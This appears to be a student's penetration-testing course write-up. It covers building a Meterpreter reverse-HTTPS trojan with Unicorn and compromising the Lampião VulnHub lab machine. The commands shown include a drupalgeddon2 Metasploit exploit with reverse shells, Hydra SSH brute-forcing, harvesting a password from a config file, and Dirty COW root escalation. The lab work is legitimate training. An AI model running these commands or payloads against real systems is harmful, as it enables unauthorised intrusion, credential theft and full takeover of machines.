



# h7

## 1

*Create a Trojan using Unicorn*

Following Tatu’s instructions I installed Unicorn by cloning it from Github.

	git clone https://github.com/trustedsec/unicorn

I navigated into “unicorn” folder and ran unicorn

	./unicorn.py windows/meterpreter/reverse_https “MyIP” 443

I’ve usually done reverse_tcp but this time chose to do reverse_https since http ports are probably more likely to be open.

Two files were created: powershell_attack.txt and unicorn.rc. The txt file is the one with the malicious code. Now I just have to turn it into executable and run it on the target machine.

Before that though I started listening for the connection

	sudo msfconsole -r unicorn.rc

I moved the payload into the target machine the same way I did in h6 by starting apache and downloaded it from the local network. Windows Defender was on but didn’t complain. I changed the file extension from txt to bat and ran it but wasn’t able to get the Meterpreter connection. I turned off Defender and tried again and this time the connection was established.

	
	sessions -l
	sessions -i 1

http://www.erkinjuntti.eu/studies/penetration-testing-course/exercise-6/

https://github.com/trustedsec/unicorn

https://github.com/juhavee/pentest/blob/master/h6.md

## 2

*Install a target machine. Break into it*

I chose Lampião from vulnhub as the target machine
and used virtual Kali Linux as the attacker.

Following these instructions I placed both my virtual attack and target machines into internal network and created dhcp server for them 

	vboxmanage dhcpserver add --netname vulnet --ip 10.10.10.1 --netmask 255.255.255.0 --lowerip 10.10.10.2 --upperip 10.10.10.12 --enable

using the attack machine I ran

	sudo netdiscover -r 10.10.10.0/24

to find the target and once I got the IP, I port scanned it with nmap

	sudo nmap -sS 10.10.10.2 -T3 -Pn -A -vv -O -sV -p 1-65535 > nmaplampiao

Ports 22, 80 and 1898 were open so I used Nikto to scan them 

	sudo nikto -h 10.10.10.2 -p 22,80,1898 -Display V -Format xml --output niktolampa2

I imported nikto’s findings to Metasploit but only thing useful for me ended up knowing that Drupal was running on port 1898

	msfdb init
	msfdb run
	db_import niktolampa2
	hosts
	services
	vulns

I searched for Drupal exploits and used the most recent one with “excellent” rating I also picked meterpreter/reverse_tcp as the payload

	search drupal
	use exploit/unix/webapp/drupal_drupalgeddon2
	setg rhost 10.10.10.2
	setg rport 1898
	show payloads
	set payload php/meterpreter/reverse_tcp
	show options
	set lhost 10.10.10.3
	exploit

I got in, launched shell and figured out who I was

	shell
	whoami

I was “www-data”. From passwd

	cd /etc
	less passwd

There were also users “root” and “tiago”

	uname -a

gave me the following information:

	Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux

Trying to figure out ways to escalate privileges I found linux-exploit-suggester. I cloned it from Github and ran the script using the uname -a output I got from the target computer

	./linux-exploit-suggester.sh --uname “Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux”

It complained that “lampiao” was a unknown option so i changed it to “taris” which I got from linux-exploit-suggesters documentation

	./linux-exploit-suggester.sh --uname "Linux taris 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux"

This time it worked fine and I got a list of possible exploits

After looking around a bit I chose to go with dirtycow.

Unfortunately I didn’t have the rights to really do anything as “www-data” so I had to abandon that plan. (The shell was kinda weird too. I remember reading somewhere that it could possibly be upgraded. Maybe that was the problem instead of lack of privileges.)

Knowing other usernames I tried to bruteforce their passwords

	nano user.txt
		root 
		tiago

	gzip -d rockyou.txt.gz

	hydra -L user.txt -P /usr/share/wordlists/rockyou.txt -e nsr -v ssh://10.10.10.2

but rockyou.txt didn’t contain them so moved on.

I wasn’t really able to do much as “www-data” anymore so I figured I had to find a way in as tiago or root.

After DuckDuckGoing around a bit I found out that Drupal apparently stores passwords to /sites/default/settings.php so I navigated to /sites/default and looked for the word password in the settings.php file

	less settings.php |grep password

Virgulino seems to be someones password. I’m guessing it won’t be roots though. 

I tried logging in as tiago with Virgulino as the password using ssh

	ssh tiago@10.10.10.2

It worked!

I tried dirtycow again and navigated to /tmp. From the dirtycow source code I knew I needed to have a file called 40847.cpp so I created one with nano
	
	nano 40847.cpp

and pasted the dirtycow code in it. I then compiled and ran it using the instructions found in the code

	g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
	./dcow -s

and got the root access!

	less flag.txt
	9740616875908d91ddcdaa8aea3af366

https://medium.com/@gavinloughridge/a-beginners-guide-to-vulnhub-part-1-52b06466635d

https://github.com/mzet-/linux-exploit-suggester

https://www.exploit-db.com/exploits/40847/

## 3

Check out Google Project Zero. Is there anything that can be used in pentesting?*

I skimmed through few of the articles but due to them being so technical I didn’t have nearly enough time to understand any well enough to write anything meaningful.

***

Course page: http://terokarvinen.com/2018/penetration-testing-course-autumn-2018

http://www.erkinjuntti.eu/studies/penetration-testing-course/exercise-6/

https://github.com/trustedsec/unicorn

https://github.com/juhavee/pentest/blob/master/h6.md

https://www.vulnhub.com/entry/lampiao-1,249/

https://medium.com/@gavinloughridge/a-beginners-guide-to-vulnhub-part-1-52b06466635d

https://github.com/mzet-/linux-exploit-suggester

- Lenovo Ideapad 720s
- Kali Xfce 64 live usb
- Intel Core i7-8550U
- GeForce MX150
- 8 GB RAM
- 500 GB SSD

